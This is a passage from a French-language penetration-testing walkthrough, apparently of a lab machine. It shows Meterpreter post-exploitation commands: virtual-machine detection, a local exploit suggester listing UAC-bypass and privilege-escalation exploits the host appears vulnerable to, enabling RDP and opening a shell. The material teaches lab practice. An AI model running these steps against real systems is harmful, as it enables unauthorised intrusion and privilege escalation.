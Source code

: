 ```sh
============
Name         : Microsoft ISATAP Adapter
Hardware MAC : 00:00:00:00:00:00
MTU          : 1280
IPv6 Address : fe80::5efe:a0a:4984
IPv6 Netmask : ffff:ffff:ffff:ffff:ffff:ffff:ffff:ffff


Interface 13
============
Name         : AWS PV Network Device #0
Hardware MAC : 02:90:d8:6a:d8:09
MTU          : 9001
IPv4 Address : 10.10.73.132
IPv4 Netmask : 255.255.0.0
IPv6 Address : fe80::a9b0:1af6:3e96:ceff
IPv6 Netmask : ffff:ffff:ffff:ffff::
```

Si on veut savoir lorsqu'on est dans une machine virtuelle (à des fins de pivotage) : 

```sh
meterpreter > run post/windows/gather/checkvm

[*] Checking if DARK-PC is a Virtual Machine .....
[+] This is a Xen Virtual Machine
```

Pour énumérer des vulnérabilités :

```sh
meterpreter > run post/multi/recon/local_exploit_suggester

[*] 10.10.73.132 - Collecting local exploits for x86/windows...
[*] 10.10.73.132 - 30 exploit checks are being tried...
[+] 10.10.73.132 - exploit/windows/local/bypassuac_eventvwr: The target appears to be vulnerable.
[+] 10.10.73.132 - exploit/windows/local/ikeext_service: The target appears to be vulnerable.
[+] 10.10.73.132 - exploit/windows/local/ms10_092_schelevator: The target appears to be vulnerable.
[+] 10.10.73.132 - exploit/windows/local/ms13_053_schlamperei: The target appears to be vulnerable.
[+] 10.10.73.132 - exploit/windows/local/ms13_081_track_popup_menu: The target appears to be vulnerable.
[+] 10.10.73.132 - exploit/windows/local/ms14_058_track_popup_menu: The target appears to be vulnerable.
[+] 10.10.73.132 - exploit/windows/local/ms15_051_client_copy_image: The target appears to be vulnerable.
[+] 10.10.73.132 - exploit/windows/local/ppr_flatten_rec: The target appears to be vulnerable.
```

Pour activer le RDP (il faut être administrateur) : `run post/windows/manage/enable_rdp`

Et si l'on veut ouvrir un shell depuis le meterpreter : `shell`

## Making Cisco proud
